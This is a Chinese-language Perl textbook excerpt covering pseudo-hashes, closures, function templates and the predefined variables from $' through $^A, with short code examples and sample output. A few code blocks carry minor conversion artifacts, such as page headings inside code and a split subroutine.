> 提示：这个 Perl 中新的、实验性的特性在未来可能会改变。

要使用数组的引用作为哈希的引用，你必须在数组的第一个元素中添加映射信息，指示哈希应如何设置。为此，你使用以下格式：

```
{key1 => arrayindexvalue1, key2 => arrayindexvalue2, ...}.
```

在这个例子中，我使用键 **first** 和 **second** 设置了一个指向匿名数组的引用：

```
$arrayreference = [{first => 1, second => 2}, "Hello", "there"];
```

现在，我可以像这样用键来引用数组的元素：

```
$arrayreference = [{first => 1, second => 2}, "Hello", "there"];

print "$arrayreference->{first} $arrayreference->{second}";
```

> Hello there

当然，我仍然可以通过索引值来引用数组中的元素：

```
$arrayreference = [{first => 1, second => 2}, "Hello", "there"];

print "$arrayreference->{first} $arrayreference->{second}\n";
print "$arrayreference->[1] $arrayreference->[2]\n";
```

> Hello there
Hello there

通过这种方式，我创建了一个既可以作为数组又可以作为哈希使用的数组。这种技术在你想处理记录时特别有用，因为你可以通过字母键存储记录中的数据，但也可以通过数字索引显式地遍历所有元素，就像这个例子：

```
$salary = [{Ed => 1, Tom => 2, Mike => 3}, 50_000, 200_000,
    150_000];

$salary->{Ed} = 100_000;
for ($total = 0, $loop_index = 1; $loop_index <= $#$salary;
    $loop_index++) {
    $total += $salary->[$loop_index];
}
```


## 第 9 章 参考

```
print "Average salary = \$" . $total / $#$salary;
```

*平均薪资 = $150000*

# 在 Perl 中创建持久作用域闭包

"Perl 中的引用相当强大，"编程正确性沙皇同意道，"但如何处理*闭包*呢？"你微笑着说："没问题。"PCC 皱起了眉头。

*闭包*是一种匿名子程序，它可以访问 Perl 编译该子程序时在其作用域内的词法变量，并且即使稍后调用该子程序，它也会保持这些变量在其作用域内。闭包提供了一种在定义子程序时以初始化该子程序的方式传递值的方法。

让我举个例子来更清楚地说明这是怎么回事。在这个例子中，我将创建一个名为 **printem** 的子程序，它返回一个指向匿名子程序的引用。该匿名子程序会打印传递给它的字符串，以及最初传递给 **printem** 的字符串。当你调用匿名子程序时，它可以访问最初传递给 **printem** 的字符串，即使你可能以为该字符串已经超出了作用域。请仔细阅读这段代码直到理解为止；关键在于我从匿名子程序*内部*使用了 **$string1**，即使对 **printem** 的调用已经返回：

```
sub printem
{
    my $string1 = shift;
    return sub {my $string2 = shift;
        print "$string1 $string2\n";};
}
```

在这个例子中，我调用 **printem** 来初始化 **$string1**。接下来，我在 **printem** 子程序中将 "Hello" 存入 **$string1**，并将返回的匿名子程序引用存入 **$hellosub**：

```
$hellosub = printem("Hello");
```

现在，即使我使用新字符串 **$string2** 调用 **$hellosub** 引用的子程序，该子程序——它已经保留了原始字符串 **$string1** 在作用域内——也能同时打印两个字符串：

```
&$hellosub("today.");
&$hellosub("there.");
```

```
Hello today.
Hello there.
```

通过这种方式，你可以在使用子程序之前用数据对其进行初始化。

> **提示：**你只能对*词法变量*使用这种*闭包*方式。

# 从函数模板创建函数

大老板打来电话。"我明天就需要那段代码，"大老板说。"但是，"你说，"我有 4000 个新子程序要写。""它们基本上差不多，"大老板说，"我相信你不会有任何问题。""嗯，"你想，"现在怎么办？"

解决方案很简单。你可以使用闭包（参见前面的主题）来创建*函数模板*，让你能够以简单的方式创建和自定义函数。

看看这个例子。在这个例子中，我将使用函数模板创建三个新函数——**printHello**、**printHi** 和 **printGreetings**——它们将分别打印字符串 "**Hello**"、"**Hi**" 和 "**Greetings**"。

我首先将这些字符串存入数组 **@greetings**：

```
@greetings = ("Hello", "Hi", "Greetings");
```

现在，我使用词法变量编写一个 **foreach** 循环来遍历这个数组。（你需要使用词法变量来创建闭包；参见前面的主题。）在该循环中，我为 **@greetings** 中的每个元素创建一个匿名函数，并为该函数创建一个符号表条目（即 typeglob）：

```
foreach my $term (@greetings) {
    *{"print" . $term} = sub {print "$term\n"};
}
```

此时，我可以调用使用模板创建的新函数，例如 **printHello** 和 **printGreetings**，如下所示：

```
printHello();
printGreetings();
```

```
Hello
Greetings
```

这就是函数模板的工作原理。使用闭包，你可以轻松地初始化和创建新函数。

请注意，如果我只是简单地将匿名子程序的引用存储为引用，像这样：

```
@greetings = ("Hello", "Hi", "Greetings");
```

```
foreach my $term (@greetings) {
    ${"print" . $term} = sub {print "$term\n"};
}
```

那么我就必须通过解引用来调用这些子程序，而不能像真正的子程序调用那样：

```
&$printHello();
&$printGreetings();
```

*Hello*
*Greetings*

## 第 10 章 预定义变量

| 如果你需要以下内容的即时解决方案： | 请参见页码： |
|:---|:---|
| **$'** 匹配后字符串 | 423 |
| **$-** 格式页剩余行数 | 423 |
| **$!** 当前 Perl 错误 | 423 |
| **$"** 内插数组值的输出字段分隔符 | 424 |
| **$#** 打印数字的输出格式 | 425 |
| **$$** 进程编号 | 425 |
| **$%** 当前格式输出页 | 426 |
| **$&** 最近一次模式匹配 | 426 |
| **$（** 真实组 ID | 427 |
| **$)** 有效组 ID | 427 |
| **$*** 多行匹配 | 427 |
| **$,** 输出字段分隔符 | 429 |
| **$.** 当前行号 | 429 |
| **$/** 输入记录分隔符 | 430 |
| **$:** 格式字符串换行字符 | 430 |
| **$;** 下标分隔符 | 430 |
| **$?** 上次管道关闭、反引号命令或系统调用的状态 | 431 |
| **$@** 上次 **eval** 的错误 | 432 |
| **$[** 数组起始索引 | 433 |
| **$\** 输出记录分隔符 | 433 |
| **$]** Perl 版本 | 434 |
| **$^** 当前页首格式 | 435 |
| **$^A** 写入累加器 | 435 |
| **$^C** 编译开关 | 436 |
| **$^D** 当前调试标志 | 436 |
| **$^E** 操作系统特定错误信息 | 436 |
| **$^F** 最大 Unix 系统文件描述符 | 437 |
| **$^H** 当前语法检查 | 438 |
| **$^I** 当前原地编辑值 | 438 |
| **$^L** 输出格式换页符 | 438 |
| **$^M** 紧急内存缓冲区 | 439 |
| **$^O** 操作系统名称 | 439 |
| **$^P** 调试支持 | 440 |
| **$^R** 上次正则表达式断言的结果 | 440 |
| **$^S** 解释器状态——在 **eval** 内部还是外部 | 440 |
| **$^T** 命令启动的纪元秒数 | 441 |
| **$^V** 作为字符串的 Perl 版本 | 442 |
| **$^W** 警告开关的当前值 | 443 |
| **$^X** 可执行文件名 | 444 |
| **${^WARNING_BITS}** 警告检查 | 445 |
| **${^WIDE_SYSTEM_CALLS}** 宽字符系统调用 | 445 |
| **$_** 默认变量 | 445 |
| **$`** 匹配前字符串 | 447 |
| **$|** 禁用缓冲 | 447 |
| **$~** 当前报告格式名称 | 448 |
| **$+** 最后一个括号匹配 | 449 |
| **$<** 真实用户 ID | 449 |
| **$=** 格式当前页长度 | 450 |
| **$>** 有效用户 ID | 451 |
| **$0** 脚本名称 | 452 |
| **$ARGV** 当前 <> 输入文件名 | 452 |
| **$*n*** 第 *n* 次模式匹配 | 453 |
| **%::** 主符号表（%main::） | 453 |
| **%ENV** 环境变量 | 455 |
| **%INC** 已包含的文件 | 456 |
| **%SIG** 信号处理器 | 457 |
| **@_** 子程序参数 | 458 |
| **@ARGV** 命令行参数 | 459 |
| **@INC** 要求值的脚本位置 | 460 |

# 深入探讨

Perl 带有许多预定义变量，我们之前已经见过很多，比如那个老朋友 $_，默认变量：

```
while ($_ = <>) {
    print $_;
}
```

因为 $_ 是默认变量，上面的代码等同于：

```
while (<>) {
    print;
}
```

预定义变量在幕后工作；你将它们设置为代码环境的一部分，设置选项或数据值以供代码的其余部分访问。因为代码对预定义变量的使用是隐式的而非显式的，一些编程专家对它们并不满意，认为它们使 Perl 代码变得不清晰和晦涩难懂。然而，Perl 程序员通常欣赏使用隐式变量的便利性。无论如何，预定义变量是 Perl 编程的一个事实，没有它们你在 Perl 中寸步难行。

除了 $_ 这样的变量外，Perl 还有许多其他预定义变量，例如 $,——输出字段分隔符——你可以像这样用它来设置 **print** 使用的输出字段，其中我将 $, 设置为分号：

```
$, = ';';
print 1, 2, 3;

1;2;3
```

预定义变量不仅仅是标量。另一个老朋友是 @_，它保存传递给子程序的参数。要获取这些参数，你需要像下面这个例子一样从 @_ 中逐个取出：

```
sub replace
{
    ($text, $to_replace, $replace_with) = @_;
}
```

```
substr ($text, index($text, $to_replace),
    length($to_replace), $replace_with);
return $text;
}

print replace("Here is the text.", "text", "word");
```

事实上，Perl 有相当多预定义变量，我们将在本章中逐一介绍。

> *注意：* 本章包含一些特定于 Unix 的材料，因为许多预定义变量是 Unix 特有的。

## 预定义变量的英文版本

预定义变量的名称非常简短，例如 $] 或 $<。那么，如何区分它们呢？通常，你可以找到一些助记方法来记住使用哪个预定义变量。例如，输出字段分隔符是 $,，这里的助记方法是字段通常用逗号分隔。

此外，许多预定义变量都有英文等价名称，如果你在程序顶部包含这个编译指示（编译器指令），就可以使用它们：

```
use English;
```

使用此编译指示意味着你可以使用预定义变量的英文等价名称，如表 10.1 所示。（注意，一些预定义变量有不止一个英文等价名称。）

**表 10.1** 预定义变量的英文等价名称。

| 变量 | 英文等价名称 |
| --- | --- |
| $- | $FORMAT_LINES_LEFT |
| $' | $POSTMATCH |
| $! | $OS_ERROR, $ERRNO |
| $" | $LIST_SEPARATOR |
| $# | $OFMT |
| $$ | $PROCESS_ID, $PID |
| $% | $FORMAT_PAGE_NUMBER |
| $& | $MATCH |
| $( | $REAL_GROUP_ID, $GID |
| $) | $EFFECTIVE_GROUP_ID, $EGID |
| $* | $MULTILINE_MATCHING |
| $, | $OUTPUT_FIELD_SEPARATOR, $OFS |
| $. | $INPUT_LINE_NUMBER, $NR |
| $/ | $INPUT_RECORD_SEPARATOR, $RS |
| $: | $FORMAT_LINE_BREAK_CHARACTERS |
| $; | $SUBSCRIPT_SEPARATOR, $SUBSEP |
| $? | $CHILD_ERROR |
| $@ | $EVAL_ERROR |
| $\ | $OUTPUT_RECORD_SEPARATOR, $ORS |
| $] | $PERL_VERSION |
| $^ | $FORMAT_TOP_NAME |
| $^A | $ACCUMULATOR |
| $^C | $COMPILING |
| $^D | $DEBUGGING |
| $^E | $EXTENDED_OS_ERROR |
| $^F | $SYSTEM_FD_MAX |
| $^I | $INPLACE_EDIT |
| $^L | $FORMAT_FORMFEED |
| $^O | $OSNAME |
| $^P | $PERLDB |
| $^T | $BASETIME |
| $^V | $PERL_VERSION |
| $^W | $WARNING |
| $^X | $EXECUTABLE_NAME |
| $_ | $ARG |
| $` | $PREMATCH |
| $| | $OUTPUT_AUTOFLUSH |
| $~ | $FORMAT_NAME |
| $+ | $LAST_PAREN_MATCH |
| $< | $REAL_USER_ID, $UID |
| $= | $FORMAT_LINES_PER_PAGE |
| $> | $EFFECTIVE_USER_ID, $EUID |
| $0 | $PROGRAM_NAME |

> 提示：使用 **English** 编译指示实际上意味着使用 *English.pm* Perl 模块，该模块使用类型球（typeglobs）将英文名称别名到预定义变量，例如：`*ARG = *_;`。

使用 **English** 编译指示旨在使你在使用预定义变量时，Perl 代码更具可读性。（我认识的一位程序员曾用“看起来像是某人在键盘上打字时打了个喷嚏”来描述一些特别晦涩难懂的 Perl 代码。）

考虑这个例子；在这个例子中，我使用了模式匹配预定义变量 **$&**，它保存了当前模式匹配的结果，如下所示：

```
$text = 'This is the time.';
$text =~ /time/;
print "Matched: \"$&\".\n"
```

*Matched: "time".*

如果你不喜欢在代码中看到 **$&**，你可以将其改为 **$MATCH**，如下所示：

```
use English;

$text = 'This is the time.';
$text =~ /time/;
print "Matched: \"$MATCH\".\n"
```

*Matched: "time".*

事实上，有迹象表明 Perl 预定义变量通常的简洁性正在减弱；从 Perl v5.6.0 开始，这些变量可以具有 **${^xxxxx}** 的形式，例如预定义变量 **${^WIDE_SYSTEM_CALLS}**。为了兼容性，这些较长的变量名必须用 { 和 } 括起来，但很明显，Perl 正在转向更长的预定义变量名。

## 为特定文件句柄设置预定义变量

许多预定义变量与当前选定的文件句柄配合使用（有关文件句柄的更多详细信息，请参阅第 13 章），但如果你在程序开头使用这个编译指示，可以指定一个特定的文件句柄来使用：

```
use FileHandle;
```

使用此编译指示后，你可以使用各种方法为指定的文件句柄设置预定义变量：

```
method HANDLE EXPR;
```

你也可以使用以下格式完成相同的操作：

```
HANDLE->method(EXPR);
```

你可以使用的方法如表 10.2 所示。

现在，看看这个例子；在这个例子中，我使用了 **format_name**、**format_top_name** 和 **format_lines_per_page** 来将输出格式化到特定文件（有关格式的更多详细信息，请参阅第 8 章）：

```
use FileHandle;

format standardformat_top =
@>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>
"Page $%"
                    Employees
First Name  Last Name   ID        Extension
-------------------------------------------
.

format standardformat =
@<<<<<<<<<<<<@<<<<<<<<<<<<@<<<<<<<<@<<<<
$firstname  $lastname   $ID     $extension
.

$firstname = "Cary";
$lastname = "Grant";
$ID = 1234;
$extension = "x456";

open FILEHANDLE, ">report.frm" or die "Can't open file";
select FILEHANDLE;
format_name FILEHANDLE standardformat;
format_top_name FILEHANDLE standardformat_top;
format_lines_per_page FILEHANDLE 1;
write;
write;
```

第 1 页

员工

| 名 | 姓 | ID | 分机号 |
| --- | --- | --- | --- |
| Cary | Grant | 1234 | x456 |

第 2 页

员工

| 名 | 姓 | ID | 分机号 |
| --- | --- | --- | --- |
| Cary | Grant | 1234 | x456 |

请注意，一些预定义变量是只读的，我将在介绍它们时进行说明；如果你尝试为这些变量赋值，Perl 将会产生错误。

另请注意，有些变量已弃用（即，可以使用，但不建议使用）；我也会指出是哪些。

这就是我们需要的所有介绍。本章的“即时解决方案”部分按字母顺序涵盖了所有预定义变量，我现在将开始介绍它们。

**表 10.2** 预定义变量的文件句柄版本。

| 变量 | 文件句柄特定版本 |
| --- | --- |
| $- | format_lines_left HANDLE EXPR |
| $% | format_page_number HANDLE EXPR |
| $, | output_field_separator HANDLE EXPR |
| $. | input_line_number HANDLE EXPR |
| $/ | input_record_separator HANDLE EXPR |
| $: | format_line_break_characters HANDLE EXPR |
| $\ | output_record_separator HANDLE EXPR |
| $^ | format_top_name HANDLE EXPR |
| $^L | format_formfeed HANDLE EXPR |
| $| | autoflush HANDLE EXPR |
| $~ | format_name HANDLE EXPR |
| $= | format_lines_per_page HANDLE EXPR |

### $' 匹配后的字符串

“嘿，”新手程序员说，“我知道你可以用正则表达式来匹配一个特定的词，但我只是在文本中把一个特定的词当作标记使用。我能用某种方法获取匹配项*之后*的所有文本吗？” “当然可以，”你说，“使用 $'。”

$' 变量保存了搜索字符串中当前匹配项之后的字符串。在这个例子中，请注意 $' 如何保存匹配项之后的所有文本：

```
$text = 'earlynowlate';
$text =~ /now/;
print "Prematch: \"$`\" Match: \"$&\" Postmatch: \"$'\"\n";
```

*Prematch: "early" Match: "now" Postmatch: "late"*

如果你像新手程序员一样，在文本中使用特定的字符序列作为标记，并且真正只关心匹配之前或之后的字符串，那么使用匹配前和匹配后的字符串会很有用。

*注意：此变量是只读的。*

### $- 页面剩余行数

$- 变量保存了当前输出通道的页面上剩余的行数。你可以将此变量与 Perl 格式（见第 8 章）一起使用来格式化页面，因为它可以让你知道当前页面上还有多少空间。

### $! 当前 Perl 错误

“哦哦，”新手程序员说，“我想我犯了个错误。” “没问题，”你说，“只要检查 $! 预定义变量就行了。” “不，”新手程序员说，“我指的是社交错误。我在未经允许的情况下借用了老板的雪茄夹。” “那不是社交错误，”你说，“那是职业生涯错误。”


你可以使用 **$!** 来获取当前的 Perl 错误编号（在数值上下文中使用时）以及对应的错误字符串（在字符串上下文中使用时）。这个示例展示了 **$!** 的用法；这里我尝试复制一个不存在的文件：

```
use File::Copy;
copy("nonexistent.pl","new.pl");  #尝试复制一个不存在的文件。
print $!;
```

*没有那个文件或目录*

变量 **$!** 在数值上下文中可以像数字一样使用，在其他情况下则作为字符串。在这个例子中，我将 **$!** 设置为值 1，并以两种方式显示该值以及与该错误值关联的错误消息——同时使用数值和字符串上下文：

```
$! = 1;
print "$!\n";
print "Error number " , 0 + $! , " occurred.";
```

*操作不允许*

*发生错误号 1。*

请注意，Perl 中的错误通常是致命的。

### $" 用于内插数组值的输出字段分隔符

"好吧，我们发现了一个新的 Perl bug，"技术支持人员告诉你。"哦，是吗？" "是的，"他们说，"我们设置了输出字段分隔符——**$,** 为逗号，但我们打印的数组中并没有任何逗号。" "哦，"你说，"对于数组，你必须使用 **$\"**。" "啊，"他们说，"当然了。"

这个变量与 **$,**（它为 **print** 函数设置输出字段分隔符）完全一样，只是它用于内插到字符串中的数组值。此变量的默认值是空格。看看这个例子：

```
@array = (1, 2, 3);
$" = ',';
$text = "@array";
print $text;
```

1,2,3

请注意，你可以在 **$\"** 中使用多字符表达式，像这样：

```
@array = (1, 2, 3);
$" = ', ';
$text = "@array";
print $text;
```

1, 2, 3

## $# 打印数字的输出格式

新手程序员问："如何设置我打印数字的精度？" "使用 **sprintf** 或 **printf** 来创建格式化的字符串，"你说。新手又问："那 **$#** 呢？我不能使用那个变量吗？" 你说："其实不行。"

预定义变量 **$#** 保存着你打印的浮点数的输出格式（以 **sprintf** 形式），正如这个例子所示：

```
$pi = 3.1415926;
$# = '%.6g';
print "$pi\n";
```

3.14159

那么，为什么应该使用 **sprintf** 或 **printf** 而不是 **$#**？因为 **$#** 在 Perl 中已被弃用，你不能指望未来它还会被支持。

## $$ 进程号

**$$** 变量保存着运行当前脚本的 Perl 解释器的进程号；它是少数几个在 Unix 中才有实际意义的变量之一。你可以这样获取当前进程号：

```
print $$;
```

4774

当你将进程分叉为父进程和子进程并希望区分它们时，这个变量很有用。有关进程间通信的更多细节，请参见 CD-ROM 上的 eChapter 1。

## $% 当前格式输出页码

新手程序员问："如何使用 Perl 格式打印页码？" "没问题，"你说，"使用预定义变量 **$%**。"

变量 **$%** 保存着当前输出通道的当前页码。你可以在 Perl 格式的头部中使用它，就像我们在本章开头看到的示例一样，我打印了当前页码：

```
use FileHandle;

format standardformat_top -
@>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>
"Page $%"
                  Employees
First Name  Last Name   ID       Extension
-------------------------------------------
.
```

这种头部会创建像这样的页面，你可以看到页码：

第 1 页

员工

| 名 | 姓 | ID | 分机号 |
|------------|-----------|----|-----------|
| Cary | Grant | 1234 | x456 |

第 2 页

员工

| 名 | 姓 | ID | 分机号 |
|------------|-----------|----|-----------|
| Cary | Grant | 1234 | x456 |

## $& 最近的模式匹配

如果你不想记清模式匹配变量（如 **$1**、**$2**、**$3** 等）的编号，可以使用 **$&**。

变量 **$&** 保存着最近一次模式匹配的结果，正如这个例子所示：

```
$text = 'earlynowlate';
$text =~ /now/;
print "Prematch: \"$`\" Match: \"$&\" Postmatch: \"$'\"\n";
```

> 前匹配: "early" 匹配: "now" 后匹配: "late"

*注意：此变量是只读的。*

## $( 真实组 ID

变量 **$(** 保存着当前进程的真实 gid（组 ID），这通常只在 Unix 中有用。在 Unix 中，每个账户都有自己的登录名、用户 ID（uid）、用户组 ID（gid）和主目录。真实 gid 是你账户的 gid，无法更改。

如果你的机器支持同时属于多个组，**$(** 保存着你的进程所属的组列表。

*提示：在 CGI 脚本中运行代码以检查安全时，检查真实与有效组 ID 可能很有用。*

## $) 有效组 ID

变量 **$)** 保存着当前进程的有效 gid（组 ID），这通常只在 Unix 中有用。在 Unix 中，每个账户都有自己的登录名、用户标识符（uid）、用户组 ID（gid）和主目录。另一方面，有效 gid 可以在代码中设置，不像真实 gid 那样为你的实际账户设置。

如果你的机器支持同时属于多个组，**$)** 保存着你的进程所属的组列表。

*提示：在 CGI 脚本中运行代码以检查安全时，检查真实与有效组 ID 可能很有用。*

## $* 多行匹配

新手程序员问："那么，如何使用正则表达式进行多行匹配呢？" "你可以在 **m//** 和 **s///** 中使用 **s** 和 **m** 修饰符，"你说。新手又问："但 **$*** 呢？我也不能用那个吗？" "不行，"你说，"它已被弃用了。"

## 第 10 章 预定义变量

预定义变量 **$*** 允许你在匹配包含换行符的字符串中的 **^** 和 **$** 时进行多行匹配。如果你将 **$*** 设置为 1，**$** 和 **^** 将分别匹配换行符之前和之后（默认值是 0）。

这个例子将帮助阐明这个描述。在这种情况下，我有一个中间包含换行符的字符串，如果你使用 **^** 和 **$** 进行匹配，Perl 通常会忽略这个换行符，正如这里所示，我用 **BOL**（行首）替换 **^**，用 **EOL**（行尾）替换 **$**：

```
$_ = "This text\nhas multiple lines.";
s/^/BOL/g;
s/$/EOL/g;
print;
```

*BOLThis text*
*has multiple lines.EOL*

如你所见，Perl 忽略了字符串中的换行符。你可以通过将 **$*** 设置为 **1** 来改变这一点：

```
$_ = "This text\nhas multiple lines.";
$* = 1;
s/^/BOL/g;
s/$/EOL/g;
print;
```

*BOLThis textEOL*
*BOLhas multiple lines.EOL*

但是请注意，**$*** 在 Perl 中已被弃用；在匹配模式时，你应该使用 **s** 和 **m** 修饰符。（详情请参见第 6 章。）这里，我使用 **m** 修饰符来完成与 **$*** 预定义变量相同的功能：

```
$_ = "This text\nhas multiple lines.";
s/^/BOL/mg;
s/$/EOL/mg;
print;
```

*BOLThis textEOL*
*BOLhas multiple lines.EOL*

| 相关解决方案 | 所在页码 |
| --- | --- |
| 在 m// 和 s/// 中使用修饰符 | 250 |

## $, 输出字段分隔符

新手程序员说："我厌倦了总是使用 **join** 在打印列表时添加逗号。我不能用其他方法吗？" "可以，"你说，"你可以使用 **$,** 来代替。只需设置它，每次打印时它都会为你工作。"

变量 **$,** 是 **print** 操作符的输出字段分隔符。这个例子展示了如何使用 **$,** 用分号分隔列表的元素：

```
$, = ';';
print 1, 2, 3;
```

1;2;3

请注意，你也可以在 **$,** 中使用多字符表达式——就像这样：

```
$, = '; ';
print 1, 2, 3;
```

1; 2; 3

让我再补充一点：如果你打印的是数组，请使用 **$\"** 而不是 **$,** （**$,** 不适用于数组）。请参见本章前面的主题 "**$\"** 用于内插数组值的输出字段分隔符"。

## $. 当前输入行号

"嗯，"新手程序员说，"我想只读取文件的前 100 行。我该怎么做？" "只需计算读取操作的次数，"你说。 "嗯，"新手说，"我是在一个 **while** 循环中读取的。我想我可以在那个循环中添加一个显式的循环索引。" 或者，"你可以使用预定义的 **$.** 变量。" 你说。

变量 **$.** 保存着你从中读取的最后一个文件句柄的当前输入行号。这里，这个脚本打开并读取它自己的源文件，在读取每一行时打印该行的行号：

```
open FILEHANDLE, "<reader.pl";

while (defined ($line = <FILEHANDLE>)) {
    print "Current line = $.\n";
}

close FILEHANDLE;
```

## $/ 输入记录分隔符

变量 **$/** 是输入记录分隔符——即 Perl 在从文件中读取记录时期望的分隔符。此变量默认保存一个换行符。当您从文件句柄读取记录时，Perl 使用 **$/** 的值作为记录分隔符。

看看这个有趣的例子；通常，您一次只从文件中读取一行，但如果您未定义 **$/**，则可以一次读取整个多行文件：

```
undef $/;
open HANDLE, "file.txt";
$text = <HANDLE>;
print $text;
```

*这是*
*来自*
*文件的文本。*

## $: 格式字符串换行符

另一个仅与格式一起使用的预定义变量是 **$:**。此变量保存您为输出换行指定的一组字符；在这些字符之后，Perl 允许断开字符串以填充格式中的续行字段（以 ^ 开头）。

## $; 下标分隔符

“所以，既然 Perl 支持引用，您几乎可以在 Perl 中使用真正的多维数组，”优秀的编程风格沙皇说。“是的，”你说。GPSC 问，“但您在引用之前是如何做多维数组的？”“我过去常使用 **$;**，”你说。

变量 **$;** 允许您使用哈希模拟多维数组。此变量保存当您将类似数组的索引传递给哈希时将使用的下标分隔字符串。您可以使用用逗号分隔索引的哈希键来模拟数组索引。看看这两个等价的表达式：

```
$hash{x,y,z}
$hash{join($;, x, y, z)}
```

此示例使用 **$;**——在本例中，我将 **%hash** 视为数组，并在元素 **1, 1, 1** 中输入字符串：

```
$hash{"1$;1$;1"} = "Hello!";
print $hash{1,1,1};
```

*Hello!*

然而，与其使用 **$;**，您可能应该使用真正的多维数组。（参见第 9 章和第 17 章。）在本例中，我使用匿名数组构造器创建一个二维数组：

```
@array = (
    [1, 2],
    [3, 4],
);
print $array[1][1];
```

4

## $? 上次管道关闭、反引号命令或系统调用的状态

> > “我对系统调用很感兴趣，”新手程序员说。你说：“哦，是吗？”“是的，”NP 说，“但我只有一个问题：在我进行系统调用后，我如何检查它是否成功？”“使用预定义变量 **$?**，”你说。

变量 **$?** 保存由上次管道关闭、反引号包围的语句（例如 **`uptime`**）或系统调用返回的状态。如果没有问题发生，状态通常为 0。

现在，考虑这个例子，我在 Unix 系统上运行 Unix **uptime** 命令；注意 **$?** 返回值为 0，表示正常执行：

```
print `uptime`;
print $?;

1:53pm  up 2 days, 16:10,  8 users,  load average: 0.01, 0.00, 0.00
0
```

但是，如果我尝试在 Unix 系统上执行，比如 MS-DOS **dir** 命令，我会得到一个非常不同的状态结果，因为 Unix 没有 **dir** 命令：

```
print `dir`;
print $?;

256
```

> **提示：** 您可以通过使用 **$? >>= 8** 来获取由上次管道关闭、反引号语句或系统调用创建的子进程的退出值。您可以通过使用 **$? & 127** 来获取进程死亡时的*信号*（如果有的话）。并且，请注意，如果 **$? & 128** 非零，则发生了核心转储。

## $@ 上次 eval 的错误

“好的，”技术支持的人员说，“我们准备好尝试那个新的、有风险的代码了。”“最好将其包含在 **eval** 语句中，”你说，“以防发生错误；**eval** 能更好地处理致命错误，而且您的程序可能不会死亡。”“嗯，”他们说，“但如果*确实*发生了错误，我们如何知道发生了什么错误？”“只需检查 **$@**，”你说。

变量 **$@** 保存来自上次 **eval** 语句的 Perl 语法错误消息。（如果没有错误发生，此值为空。）这个预定义变量非常重要，因为许多程序员使用 **eval** 来运行有风险的代码。

下一个示例展示了如何使用 **$@** 和 **eval** 来处理原本会是致命错误的情况。（事实上，这是 **eval BLOCK** 形式的 **eval** 的主要用途——提供一种捕获运行时错误的机制。）注意程序打印了错误消息（即此脚本不会因致命错误而终止）：

```
$x = 1;
$y = 0;
eval {$result = $x / $y};
print "eval says: $@" if $@;

eval says: Illegal division by zero at divider.pl line 3.
```

## $[ 数组基准

在 Basic 中，新手程序员说，我可以将默认的最低数组索引设置为 0 或 1。我可以在 Perl 中做同样的事情吗？不，你说。NP 问，预定义变量 $[ 呢？从未听说过，你说。

变量 $[ 保存数组中下标的默认最低值，但此预定义变量在 Perl 中已被严重弃用。事实上，您可能会听到更多关于远离 $[ 的警告，而不是其他任何已弃用的 Perl 预定义变量。

默认情况下，您可以给数组值的最低索引是 0，但您可以通过设置 $[ 将其设置为 1。看看这个例子：

```
@a = (1, 2, 3);
print "Array \@a = @a\n";
print "Element \@a[0] = $a[0]\n";
print "Resetting array base...\n";
$[ = 1;
print "Element \@a[1] = $a[1]\n";
```

```
Array @a = 1 2 3
Element @a[0] = 1
Resetting array base...
Element @a[1] = 1
```

这个预定义变量 $[，随着每个新的 Perl 版本的发布，得到的支持越来越少。（截至 Perl 5，它实际上是一个编译器指令，而不是真正的预定义变量，并且只能影响当前文件。）所以，不要指望 $[ 会在将来存在或工作。

## $\ 输出记录分隔符

预定义变量 $\ 保存 print 运算符的输出记录分隔符；此分隔符在您使用 print 函数打印的字符串末尾打印。通常，这是一个空字符串，但您可以像这样在其中放置文本：

```
$\ = "END_OF_OUTPUT";
print "Hello!";
```

```
Hello!END_OF_OUTPUT
```

## $] Perl 版本

“嗯，”新手程序员说，“Perl 5 引入了许多新特性，例如引用，等等。我如何检查我的脚本是在哪个版本的 Perl 中运行的，以便我可以查看是否可以使用这些新特性？”“检查预定义变量 $]，”你说。NP 问，“那是什么？”“它保存当前的 Perl 版本，”你说。

变量 $] 保存当前 Perl 解释器的版本。看看这个简短的例子：

```
print $];
```

5.006001

您可以使用 $] 进行比较，以检查最新特性是否可用，例如在此示例中，我检查以确保我可以使用 **qr//** 结构来创建编译模式，这是一种仅在 Perl 5.005 中出现的功能：

```
if ($] < 5.005) {
    print "Isn't it time to upgrade?";
} else {
    #Use qr//, new in Perl 5.005
    print "Creating compiled patterns...\n";
    @patterns =
    (
        qr/\bis\b/,
        qr/\bthe\b/,
        qr/\bbut\b/,
        qr/\ba\b/,
        qr/\bnone\b/,
    );
}
```

重要的是要知道，自 Perl v5.6.0 以来，$] 已经有些失宠，因为它返回一个数值。如上例所示，在 Perl v5.6.1 中，$] 给出数值 5.006001，这与 5.6.0 编号方案的格式不同。有关更受接受的替代方案，请参阅本章后面的“$^V 作为字符串的 Perl 版本”。

> 提示：**English** 模块现在将 **$^V** 的值（而不是 **$]**）赋给 **$PERL_VERSION** 变量。

## $^ 当前页首格式

另一个与 Perl 格式一起使用的预定义变量是 **$^**。此变量保存当前输出通道的页眉格式的名称。有关 Perl 格式的所有详细信息，请参阅第 8 章。

考虑下一个例子；在这里，我通过设置预定义变量 **$~** 和 **$^**，将两个格式 **standardformat** 和 **standardformat_top** 与文件句柄相关联，然后向该文件句柄打印格式化文本：

```
format standardformat_top -
                Employees
First Name  Last Name   ID       Extension
------------------------------------------
.

format standardformat -
@<<<<<<<<<<<<@<<<<<<<<<<<<@<<<<<<<@<<<<
$firstname  $lastname   $ID      $extension
.

$firstname = "Cary"; $lastname = "Grant";
$ID = 1234; $extension = "x456";

open FILEHANDLE, ">report.frm" or die "Can't open file";
select FILEHANDLE;
$~ = standardformat;
$^ = standardformat_top;
write;
close;
```

此代码创建一个名为 report.frm 的文件，其中包含以下文本：

```
                          Employees
First Name  Last Name   ID       Extension
------------------------------------------
Cary       Grant       1234     x456
```

## $^A 写累加器

另一个与 Perl 格式一起使用的预定义变量是 **$^A**。（有关 Perl 格式的更多详细信息，请参阅第 8 章。）此变量保存写累加器的当前值；在您创建要显示的格式化行之后，底层函数

**formline** 将结果放入累加器中，而 **write** 语句打印累加器的内容。

在接下来的示例中，我创建了一个新的格式，并将 **right**、**center** 和 **left** 这几个词传递给 **formline**，以指明正在进行的对齐方式。最后，我打印累加器的内容：

```perl
$str = formline <<'EOD', right, center, left;
Here's some text justification...
------------------------------
@<<<<<<<@||||||@>>>>>>>>>
EOD

print "$^A\n";
```

```
Here's some text justification...
------------------------------
right     center        left
```

> **提示：** 如果你反复使用 **formline**，应该通过将其设置为空字符串来清除 **$^A**。

